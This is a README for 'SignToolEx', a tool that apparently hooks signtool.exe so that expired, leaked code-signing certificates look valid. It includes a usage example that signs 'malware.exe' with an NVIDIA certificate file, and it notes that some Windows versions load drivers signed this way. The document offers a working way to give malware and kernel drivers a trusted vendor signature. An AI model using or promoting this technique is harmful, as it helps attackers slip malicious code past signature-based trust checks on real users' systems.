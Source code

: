 # SignToolEx

SignToolEx uses Microsoft Detours hooking library to hijack "signtool.exe" and modify
expired code-signing certificates to appear valid, allowing to codesign without changing
system clock. This allows expired (leaked) certificates to be used for code-signing but
does not permit spoofing Authenticode timestamps. Some versions of Windows (such as 10)
accept and load .sys device drivers when signed with expired certificates regardless. 

This tool is used in the same way as "signtool.exe" by simply running "SignToolEx.exe",
needs SignToolExHook.dll in the current directory and "signtool.exe" in your %PATH%.

```
C:\tools\SignToolEx>SignToolEx.exe sign /v /f nvidia0.pfx /p **redacted** /fd SHA256 c:\temp\malware.exe
The following certificate was selected:
    Issued to: NVIDIA Corporation
    Issued by: VeriSign Class 3 Code Signing 2010 CA
    Expires:   Sat Jul 26 17:59:59 3000
    SHA1 hash: 30632EA310114105969D0BDA28FDCE267104754F

Done Adding Additional Store
Successfully signed: c:\temp\malware.exe

Number of files successfully Signed: 1
Number of warnings: 0
Number of errors: 0

```

These files are available under a Attribution-NonCommercial-NoDerivatives 4.0 International license.